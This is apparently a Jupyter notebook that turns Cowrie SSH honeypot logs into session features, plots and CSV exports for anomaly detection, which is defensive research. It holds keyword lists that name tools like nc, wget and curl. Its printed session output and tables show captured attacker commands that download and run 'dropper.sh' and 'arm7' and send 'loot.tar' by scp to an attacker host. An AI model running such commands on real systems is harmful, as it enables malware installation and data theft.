session_df["has_successful_login"]= (session_df["login_success"]>0).astype(int)
session_df["has_any_commands"]= (session_df["cmd_count"]>0).astype(int)
session_df["has_failed_commands"]= (session_df["cmd_failed_count"]>0).astype(int)
session_df["is_local_src"]= session_df["src_ip"].isin(["127.0.0.1", "::1"]).astype(int)

def session_cmd_flags(commands:List[str])-> Dict[str,int]:
    if not commands:
        return{
            "contains_recon_cmds":0,
            "contains_install_cmds":0,
            "contains_nav_cmds": 0,
            "contains_exit_cmd":0,
            "contains_persist_terms": 0,
            "contains_exec_terms": 0,
            "contains_kill_terms": 0,
            "contains_network_terms": 0,
        }
    joined= ";".join(str(c).lower() for c in commands)

    #command terms - mainly linux/unix since we're using cowrie
    #may need to add window specific terms if needed
    recon_terms=["ls", "pwd", "whoami", "uname", "id", "cat /etc/passwd", "hostname", "ifconfig",
                 "ip a", "ip addr", "ip route", "netstat", "ss", "ps", "ps aux", "top", "free",
                 "df", "uptime", "w", "last", "env", "printenv", "history", "cat /proc/cpuinfo", 
                 "cat /proc/meminfo"]
    install_terms= ["wget", "curl", "apt", "apt-get", "yum", "pip", "scp", "ftp", "tftp",
                    "dnf", "pip3", "git clone", "chmod +x", "tar", "unzip", "gunzip", "gzip"]
    nav_terms= ["cd", "mkdir", "rm", "mv", "cp", "touch", "find", "locate", "tree", "du", "stat"]
    exit_terms= ["exit", "logout", "quit"]
    persist_terms = ["crontab","crontab -e", "systemctl","service", "nohup","screen","tmux"]
    network_terms= ["ssh","telnet","nc","netcat","nmap","ping"]
    kill_terms = ["kill","killall","pkill"]
    exec_terms= ["./bot", "./a.out","sh","bash","python","python3","perl","php","node"]

    return {
        "contains_recon_cmds": int(any(t in joined for t in recon_terms)),
        "contains_install_cmds": int(any(t in joined for t in install_terms)),
        "contains_nav_cmds": int(any(t in joined for t in nav_terms)),
        "contains_exit_cmd": int(any(t in joined for t in exit_terms)),
        "contains_persist_terms": int(any(t in joined for t in persist_terms)),
        "contains_exec_terms": int(any(t in joined for t in exec_terms)),
        "contains_kill_terms": int(any(t in joined for t in kill_terms)),
        "contains_network_terms": int(any(t in joined for t in network_terms)),
    }
cmd_df["command_text"] = cmd_df["command"]
cmd_df.loc[cmd_df["command_text"].isna(), "command_text"] = cmd_df["input"]
#commands typed per session
cmds_per_session= (cmd_df.dropna(subset=["command_text"]).groupby("session")["command_text"].apply(list).to_dict())
#failed commands per session
failed_cmd_df["command_text"] = failed_cmd_df["command"]
failed_cmd_df.loc[failed_cmd_df["command_text"].isna(), "command_text"] = failed_cmd_df["input"]
failed_cmds_per_session= (failed_cmd_df.groupby("session")["command_text"].apply(list).to_dict())

cmd_flags=session_df["session"].apply(lambda s: session_cmd_flags(cmds_per_session.get(s,[])))
cmd_flags_df= pd.DataFrame(list(cmd_flags))
session_df=pd.concat([session_df, cmd_flags_df], axis=1)

session_df["commands_used"] = session_df["session"].map(lambda s: cmds_per_session.get(s, []))
session_df["failed_cmds_used"] = session_df["session"].map(lambda s: failed_cmds_per_session.get(s, []))


session_df[
    [
        "session",
        "duration",
        "cmd_count",
        "cmd_failed_count",
        "cmds_per_min",
        "cmd_failed_ratio",
        "login_fail",
        "pw_entropy_per_char",
        "pw_entropy_total",
        "pw_normalized_entropy",
        "pw_length_mean",
        "pw_unique_chars_mean",
        "pw_total_strength",
        "has_successful_login",
        "has_any_commands",
        "has_failed_commands",
        "is_local_src",
    ]
].head(10)


,session,duration,cmd_count,cmd_failed_count,cmds_per_min,cmd_failed_ratio,login_fail,pw_entropy_per_char,pw_entropy_total,pw_normalized_entropy,pw_length_mean,pw_unique_chars_mean,pw_total_strength,has_successful_login,has_any_commands,has_failed_commands,is_local_src
0,19ddfa08ac44,3.500000,0,0,0.000000,0.000000,3,2.242189,15.094738,0.962451,6.333333,5.333333,23.594738,0,0,0,0
1,2f8ab194d0e8,3.000000,0,0,0.000000,0.000000,2,2.160964,9.804820,1.000000,4.500000,4.500000,16.554820,0,0,0,0
2,5e7f9d0aa131,7.900000,4,1,30.379747,0.250000,0,2.584963,15.509775,1.000000,6.000000,6.000000,24.509775,1,1,1,0
3,77ca82f0e1ab,8.500000,4,1,28.235294,0.250000,0,2.750000,22.000000,0.979570,8.000000,7.000000,33.000000,1,1,1,0
4,7c99d0af04c1,11.200000,6,1,32.142857,0.166667,0,2.500000,20.000000,0.967132,8.000000,6.000000,30.000000,1,1,1,0
5,884fca7720be,8.100000,4,1,29.629629,0.250000,2,2.218964,12.788176,0.993190,5.333333,5.000000,20.454843,1,1,1,0
6,bf1d67850980,32.060101,10,2,18.714851,0.200000,2,2.273976,13.869880,0.982132,5.666667,5.333333,22.036547,1,1,1,1
7,c1a2bb7fd932,8.100000,3,0,22.222222,0.000000,0,2.521641,17.651484,0.975504,7.000000,6.000000,27.151484,1,1,0,0
8,de9a441bb210,5.200000,0,0,0.000000,0.000000,3,1.959148,10.754888,0.947545,5.333333,4.333333,17.754888,0,0,0,0
9,e55f0a4bb761,1.600000,0,0,0.000000,0.000000,1,2.521641,17.651484,0.975504,7.000000,6.000000,27.151484,0,0,0,0


In [11]:
#print commands and failed info
# empty commands may mean they dont ready the input stage
for _, row in session_df[
    ["session", "commands_used", "failed_cmds_used", "cmd_failed_count"]
].head(20).iterrows():
    print(f"Session: {row['session']}")
    print(f"Commands used: {row['commands_used']}")
    print(f"Failed commands: {row['failed_cmds_used']}")
    print(f"Failed command count: {row['cmd_failed_count']}")
    print("------------------------------------------------")

Session: 19ddfa08ac44
Commands used: []
Failed commands: []
Failed command count: 0
------------------------------------------------
Session: 2f8ab194d0e8
Commands used: []
Failed commands: []
Failed command count: 0
------------------------------------------------
Session: 5e7f9d0aa131
Commands used: ['ls -la', 'cat /proc/cpuinfo', 'touch scan.txt', 'scp loot.tar attacker@198.51.100.77:/tmp/loot.tar']
Failed commands: ['scp loot.tar attacker@198.51.100.77:/tmp/loot.tar']
Failed command count: 1
------------------------------------------------
Session: 77ca82f0e1ab
Commands used: ['pwd', 'curl http://example.com/dropper.sh', 'chmod +x dropper.sh', './dropper.sh']
Failed commands: ['./dropper.sh']
Failed command count: 1
------------------------------------------------
Session: 7c99d0af04c1
Commands used: ['pwd', 'uname -a', 'id', 'wget http://203.0.113.200/tools/arm7', 'chmod +x arm7', './arm7']
Failed commands: ['./arm7']
Failed command count: 1
---------------------------------------

### GeoIP Location (Optional)

If GeoIP is enabled, this section maps source IPs to approximate geographic metadata such as:
- country
- city
- latitude
- longitude


In [12]:
if GEOIP:
    import geoip2.database 
    reader= geoip2.database.Reader(str(GEOIP_MMDB))

    #maps ip to location metadata and return none if missing or failed lookups
    def geoip_lookup(ip: str) -> Dict[str, Any]:
        if not isinstance(ip,str) or not ip:
            return{"country": None, "city": None, "lat": None, "lon": None}
        if ip in{"127.0.0.1", "::1"}:
            return {"county": None, "city":None, "lat": None, "lon": None}
        try:
            resp= reader.city(ip)
            return{
                "country": getattr(resp.country, "iso_code", None),
                "city": getattr(resp.city, "name", None),
                "lat": getattr(resp.location, "latitude", None),
                "lon": getattr(resp.location, "longitude", None),
            }
        except Exception:
            return {"country": None, "city": None, "lat": None, "lon": None}
    
    geo= session_df["src_ip"].apply(geoip_lookup).apply(pd.Series)
    session_df= pd.concat([session_df, geo.add_prefix("geo_")], axis=1)

session_df.head(5)

,session,session_start,session_end,duration,src_ip,dst_ip,dst_port,protocol,user_first,sensor,uuid,login_success,login_fail,unique_users,unique_pass,cmd_count,unique_cmds,first_cmd,last_cmd,cmd_failed_count,unique_failed_cmds,first_failed_cmd,last_failed_cmd,reported_session_duration,reported_tty_duration,ttylog,ttylog_size,ttylog_duplicate,ttylog_shasum,file_download_count,first_download_url,first_download_outfile,file_upload_count,first_upload_filename,first_upload_outfile,first_upload_destfile,first_upload_url,pw_entropy_per_char,pw_entropy_total,pw_normalized_entropy,pw_length_mean,pw_unique_chars_mean,pw_total_strength,passwords_used,cmds_per_min,fails_per_min,cmd_failed_per_min,cmd_failed_ratio,has_successful_login,has_any_commands,has_failed_commands,is_local_src,contains_recon_cmds,contains_install_cmds,contains_nav_cmds,contains_exit_cmd,contains_persist_terms,contains_exec_terms,contains_kill_terms,contains_network_terms,commands_used,failed_cmds_used
0,19ddfa08ac44,2026-03-04 13:05:01+00:00,2026-03-04 13:05:04.500000+00:00,3.5,91.92.109.12,10.0.0.5,2222.0,ssh,root,PC4Me,bb88cc30-1649-11f1-8bf4-00155d923fee,0,3,3,3,0,0,NaN,NaN,0,0,NaN,NaN,3.5,NaN,NaN,NaN,NaN,NaN,0,NaN,NaN,0,NaN,NaN,NaN,NaN,2.242189,15.094738,0.962451,6.333333,5.333333,23.594738,"[toor, oracle, raspberry]",0.000000,51.428571,0.000000,0.000000,0,0,0,0,0,0,0,0,0,0,0,0,[],[]
1,2f8ab194d0e8,2026-03-04 14:28:00+00:00,2026-03-04 14:28:03+00:00,3.0,198.18.0.77,10.0.0.5,2222.0,ssh,test,PC4Me,ab33bc80-1649-11f1-8bf4-00155d923fee,0,2,2,2,0,0,NaN,NaN,0,0,NaN,NaN,3.0,NaN,NaN,NaN,NaN,NaN,0,NaN,NaN,0,NaN,NaN,NaN,NaN,2.160964,9.804820,1.000000,4.500000,4.500000,16.554820,"[1234, admin]",0.000000,39.999999,0.000000,0.000000,0,0,0,0,0,0,0,0,0,0,0,0,[],[]
2,5e7f9d0aa131,2026-03-04 14:40:30+00:00,2026-03-04 14:40:37.900000+00:00,7.9,66.240.219.146,10.0.0.5,2222.0,ssh,backup,PC4Me,bc44cd90-1649-11f1-8bf4-00155d923fee,1,0,1,1,4,4,ls -la,scp loot.tar attacker@198.51.100.77:/tmp/loot.tar,1,1,scp loot.tar attacker@198.51.100.77:/tmp/loot.tar,scp loot.tar attacker@198.51.100.77:/tmp/loot.tar,7.8,7.4,var/lib/cowrie/tty/5e7f9d0aa131.log,876.0,False,c81e728d9d4c2f636f067f89cc14862c,0,NaN,NaN,1,loot.tar,var/lib/cowrie/uploads/5e7f9d0aa131_loot.tar,None,None,2.584963,15.509775,1.000000,6.000000,6.000000,24.509775,[backup],30.379747,0.000000,7.594937,0.250000,1,1,1,0,1,1,1,0,0,0,0,0,"[ls -la, cat /proc/cpuinfo, touch scan.txt, sc...",[scp loot.tar attacker@198.51.100.77:/tmp/loot...
3,77ca82f0e1ab,2026-03-04 12:40:10+00:00,2026-03-04 12:40:18.500000+00:00,8.5,45.83.64.12,10.0.0.5,2222.0,ssh,admin,PC4Me,aa77bb20-1649-11f1-8bf4-00155d923fee,1,0,1,1,4,4,pwd,./dropper.sh,1,1,./dropper.sh,./dropper.sh,8.5,8.3,var/lib/cowrie/tty/77ca82f0e1ab.log,981.0,False,16b98cfb4a6c0b77f4f2f907f16a22b4cbd1a111,0,NaN,NaN,0,NaN,NaN,NaN,NaN,2.750000,22.000000,0.979570,8.000000,7.000000,33.000000,[password],28.235294,0.000000,7.058823,0.250000,1,1,1,0,1,1,0,0,0,1,0,0,"[pwd, curl http://example.com/dropper.sh, chmo...",[./dropper.sh]
4,7c99d0af04c1,2026-03-04 14:12:10+00:00,2026-03-04 14:12:21.200000+00:00,11.2,172.104.18.91,10.0.0.5,2222.0,ssh,operator,PC4Me,ff22aa70-1649-11f1-8bf4-00155d923fee,1,0,1,1,6,6,pwd,./arm7,1,1,./arm7,./arm7,11.2,10.9,var/lib/cowrie/tty/7c99d0af04c1.log,1102.0,False,c4ca4238a0b923820dcc509a6f75849b,1,http://203.0.113.200/tools/arm7,var/lib/cowrie/downloads/1f3870be274f6c49b3e31...,1,loot.txt,var/lib/cowrie/uploads/7c99d0af04c1_loot.txt,None,None,2.500000,20.000000,0.967132,8.000000,6.000000,30.000000,[operator],32.142857,0.000000,5.357143,0.166667,1,1,1,0,1,1,1,0,0,0,0,0,"[pwd, uname -a, id, wget http://203.0.113.200/...",[./arm7]


### ML Feature Table 
Constructs final dataset for training

The resulting `features_df` keeps:
- session identity columns
- timing columns
- network context
- numeric features
- boolean behavioral indicators

This table is intended to be exported for:
- clustering
- anomaly detection
- baseline classification experiments
- train/test split preparation later

In [14]:
feature_cols_numeric = [
    "duration",
    "reported_session_duration",
    "reported_tty_duration",
    "cmd_count",
    "unique_cmds",
    "cmd_failed_count",
    "unique_failed_cmds",
    "cmds_per_min",
    "cmd_failed_per_min",
    "cmd_failed_ratio",
    "login_success",
    "login_fail",
    "fails_per_min",
    "unique_users",
    "unique_pass",
    "pw_entropy_per_char",
    "pw_entropy_total",
    "pw_normalized_entropy",
    "pw_length_mean",
    "pw_unique_chars_mean",
    "pw_total_strength",
    "has_successful_login",
    "has_any_commands",
    "has_failed_commands",
    "commands_used",
    "cmd_failed_count",
    "failed_cmds_used",
    "is_local_src",
    "contains_recon_cmds",
    "contains_install_cmds",
    "contains_nav_cmds",
    "contains_exit_cmd",
    "file_download_count",
    "file_upload_count",
]


#if geolocation is enabled
if GEOIP:
    feature_cols_numeric+= ["geo_lat", "geo_lon"]

features_df= session_df[["session", "src_ip", "session_start", "session_end"]+feature_cols_numeric].copy()
features_df.replace([np.inf, -np.inf], np.nan, inplace=True)
features_df.fillna(0, inplace=True)
features_df.head()


,session,src_ip,session_start,session_end,duration,reported_session_duration,reported_tty_duration,cmd_count,unique_cmds,cmd_failed_count,unique_failed_cmds,cmds_per_min,cmd_failed_per_min,cmd_failed_ratio,login_success,login_fail,fails_per_min,unique_users,unique_pass,pw_entropy_per_char,pw_entropy_total,pw_normalized_entropy,pw_length_mean,pw_unique_chars_mean,pw_total_strength,has_successful_login,has_any_commands,has_failed_commands,commands_used,cmd_failed_count,failed_cmds_used,is_local_src,contains_recon_cmds,contains_install_cmds,contains_nav_cmds,contains_exit_cmd,file_download_count,file_upload_count
0,19ddfa08ac44,91.92.109.12,2026-03-04 13:05:01+00:00,2026-03-04 13:05:04.500000+00:00,3.5,3.5,0.0,0,0,0,0,0.000000,0.000000,0.000000,0,3,51.428571,3,3,2.242189,15.094738,0.962451,6.333333,5.333333,23.594738,0,0,0,[],0,[],0,0,0,0,0,0,0
1,2f8ab194d0e8,198.18.0.77,2026-03-04 14:28:00+00:00,2026-03-04 14:28:03+00:00,3.0,3.0,0.0,0,0,0,0,0.000000,0.000000,0.000000,0,2,39.999999,2,2,2.160964,9.804820,1.000000,4.500000,4.500000,16.554820,0,0,0,[],0,[],0,0,0,0,0,0,0
2,5e7f9d0aa131,66.240.219.146,2026-03-04 14:40:30+00:00,2026-03-04 14:40:37.900000+00:00,7.9,7.8,7.4,4,4,1,1,30.379747,7.594937,0.250000,1,0,0.000000,1,1,2.584963,15.509775,1.000000,6.000000,6.000000,24.509775,1,1,1,"[ls -la, cat /proc/cpuinfo, touch scan.txt, sc...",1,[scp loot.tar attacker@198.51.100.77:/tmp/loot...,0,1,1,1,0,0,1
3,77ca82f0e1ab,45.83.64.12,2026-03-04 12:40:10+00:00,2026-03-04 12:40:18.500000+00:00,8.5,8.5,8.3,4,4,1,1,28.235294,7.058823,0.250000,1,0,0.000000,1,1,2.750000,22.000000,0.979570,8.000000,7.000000,33.000000,1,1,1,"[pwd, curl http://example.com/dropper.sh, chmo...",1,[./dropper.sh],0,1,1,0,0,0,0
4,7c99d0af04c1,172.104.18.91,2026-03-04 14:12:10+00:00,2026-03-04 14:12:21.200000+00:00,11.2,11.2,10.9,6,6,1,1,32.142857,5.357143,0.166667,1,0,0.000000,1,1,2.500000,20.000000,0.967132,8.000000,6.000000,30.000000,1,1,1,"[pwd, uname -a, id, wget http://203.0.113.200/...",1,[./arm7],0,1,1,1,0,1,1


### Visualizations
Graphs to demonstrate attacker behavior patterns 
- Session duration
- Commands per session
- Login failures per session
- Mean password entropy per session
- Top IP sources












In [15]:
#plot histogram for numeric session features and visualize feature distribution 
def hist(series: pd.Series, title:str, bins: int= 50):
    plt.figure()
    #drop missing values
    plt.hist(series.dropna().values, bins=bins)
    plt.title(title)
    plt.xlabel(series.name)
    plt.ylabel("count")
    plt.show()

#distribution plots
hist(session_df["duration"], "Session duration (s)")
hist(session_df["cmd_count"], "Commands per session")
hist(session_df["login_fail"], "Login failures per session")
hist(session_df["pw_entropy_total"], "Password Total Entropy per session")

#top source ips
top_ips= session_df["src_ip"].value_counts().head(15)
plt.figure()
plt.bar(top_ips.index.astype(str), top_ips.values)
plt.title("Top source IPs by session count")
plt.xticks(rotation=70, ha="right")
plt.ylabel("sessions")
plt.show()

### Save Output Files
Exports the processed tables as CSV files so they can be used later for backend integration and external dataset comparison


In [16]:
#file paths for outputs
events_out= OUTPUT_DIR/"cowrie_events.csv"
sessions_out= OUTPUT_DIR/"cowrie_sessions.csv"
features_out= OUTPUT_DIR/"cowrie_features.csv"

events_df.to_csv(events_out, index= False)
session_df.to_csv(sessions_out, index= False)
features_df.to_csv(features_out, index= False)

print("Saved Files:")
print("-", events_out)
print("-", sessions_out)
print("-", features_out)


Saved Files:
- ..\data\outputs\cowrie_events.csv
- ..\data\outputs\cowrie_sessions.csv
- ..\data\outputs\cowrie_features.csv
